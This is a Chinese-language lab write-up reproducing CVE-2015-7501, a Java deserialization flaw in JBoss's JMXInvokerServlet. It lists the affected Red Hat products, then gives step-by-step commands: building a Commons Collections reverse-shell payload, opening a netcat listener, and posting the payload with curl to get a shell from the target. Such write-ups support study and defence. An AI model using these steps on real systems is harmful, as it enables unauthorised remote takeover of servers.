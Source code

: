 # CVE-2015-7501 JBoss JMXInvokerServlet 反序列化漏洞

### 一、漏洞简介

由于JBoss中invoker/JMXInvokerServlet路径对外开放，JBoss的jmx组件支持Java反序列化

### 二、漏洞影响

Red Hat JBoss A-MQ 6.x版本；BPM Suite (BPMS) 6.x版本；BRMS 6.x版本和5.x版本；Data Grid (JDG) 6.x版本；Data Virtualization (JDV) 6.x版本和5.x版本；Enterprise Application Platform 6.x版本，5.x版本和4.3.x版本；Fuse 6.x版本；Fuse Service Works (FSW) 6.x版本；Operations Network (JBoss ON) 3.x版本；Portal 6.x版本；SOA Platform (SOA-P) 5.x版本；Web Server (JWS) 3.x版本；Red Hat OpenShift/xPAAS 3.x版本；Red Hat Subscription Asset Manager 1.3版本。

### 三、复现过程

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入`http://172.26.1.151:8080/invoker/JMXInvokerServlet` 返回如图，说明接口开发，存在反序列化漏洞

![](images/15890724213983.png)


进入kali攻击机，下载反序列化工具:https://github.com/ianxtianxt/CVE-2015-7501/

解压完，进入到这个工具目录 ,执行命令:


```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
```

继续执行命令:


```java
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)
```

新界面开启nc准备接收反弹过来的shell。命令:`nc -lvnp 4444`

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:


```bash
curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![](images/15890724616552.png)


打开nc界面，发现shell已经弹回来了

![](images/15890724678658.png)